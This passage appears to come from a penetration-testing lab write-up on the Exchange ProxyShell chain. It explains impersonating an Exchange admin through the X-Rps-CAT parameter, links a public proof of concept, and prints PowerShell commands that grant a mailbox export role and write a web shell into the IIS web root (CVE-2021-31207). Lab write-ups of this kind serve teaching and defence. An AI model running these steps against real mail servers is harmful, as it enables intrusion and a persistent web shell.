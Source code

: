 As we can see the endpoint is reachable, this means we can call the exchange backend api from the frontend.

- The exploitation consist next of calling the endpoint to run powershell command with the parameter `X-Rps-CAT`. This way we can run arbitrary exchange command and impersonate any user like the exchange admin.

- A complete poc exist here : [https://github.com/dmaasland/proxyshell-poc](https://github.com/dmaasland/proxyshell-poc)

- If we run it we get a powershell command prompt ready to use

![proxy_shell_poc.png](/assets/blog/EXCHANGE/proxy_shell_poc.png)

- Then we can run the CVE-2021-31207 to write arbitrary file with the help of the New-MailboxExportRequest command to export mailbox to a specific path. 

```
PS> New-ManagementRoleAssignment -role "Mailbox Import Export" -user "Administrator"
PS> Get-ManagementRoleAssignment -role "Mailbox Import Export" -GetEffectiveUsers
PS> New-MailboxExportRequest -Mailbox jaime.lannister@sevenkingdoms.local -FilePath \\\\127.0.0.1\\C$\\inetpub\\wwwroot\\webshell.aspx
```

- Because we are lazy, let's try the complete poc to get automatic rce by using the `dropshell` command.

![drop_shell_run.png](/assets/blog/EXCHANGE/drop_shell_run.png)
